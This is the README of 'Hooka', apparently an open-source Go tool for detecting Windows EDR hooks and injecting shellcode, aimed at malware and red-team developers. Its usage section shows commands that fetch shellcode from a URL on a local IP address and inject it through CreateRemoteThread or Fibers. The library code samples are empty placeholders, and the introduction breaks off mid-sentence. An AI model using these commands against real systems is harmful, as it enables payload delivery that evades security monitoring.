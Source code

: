 <p align="center">
  <h1 align="center">Hooka</h1>
  <p align="center">~ Windows hooks detector and shellcode injector written in Golang ~</p>
</p>

<p align="center">
  <a href="#introduction">Introduction</a> •
  <a href="#usage">Usage</a> •
  <a href="#library">Library</a> •
  <a href="#contributing">Contributing</a> •
  <a href="#disclaimer">Disclaimer</a>
</p>

# Introduction

I started this project 

There's not to much info about detecting Windows hooks in ***Golang*** so I decided to try by my own and I've also taken some code from [BananaPhone]() project (thanks a lot to ***C-Sto**)

# Usage

You just have to clone the repository like this:

```sh
git clone https://github.com/D3Ext/Hooka
```

```
help panel
```

> Detect hooked functions by EDR
```sh
.\Hooka.exe --hooks
```

> Inject shellcode from URL
```sh
.\Hooka.exe --inject CreateRemoteThread --url http://192.168.116.37/shellcode.bin
```

> Inject shellcode from file
```sh
.\Hooka.exe --inject Fibers --file shellcode.bin
```

# Demo

# Library

If you're looking to implement any function in your malware you can do it using the official library API:

```go
...



...
```


```go
...



...
```


```go
...



...
```

# Contributing

Do you wanna improve the code with any idea or code optimization? You're in the right place

See [CONTRIBUTING.md]()

# References

```
https://github.com/C-Sto/BananaPhone
https://www.ired.team/offensive-security/defense-evasion/detecting-hooked-syscall-functions#checking-for-hooks
https://github.com/Kara-4search/HookDetection_CSharp
https://teamhydra.blog/2020/09/18/implementing-direct-syscalls-using-hells-gate/
```

# Disclaimer

Creator isn't in charge of any and has no responsibility for any kind of: illegal use of the project, malicious act, capable of causing damage to third parties

Use this project under your own responsability!

# License

This project is licensed under [MIT]() license

Copyright © 2023, *D3Ext*



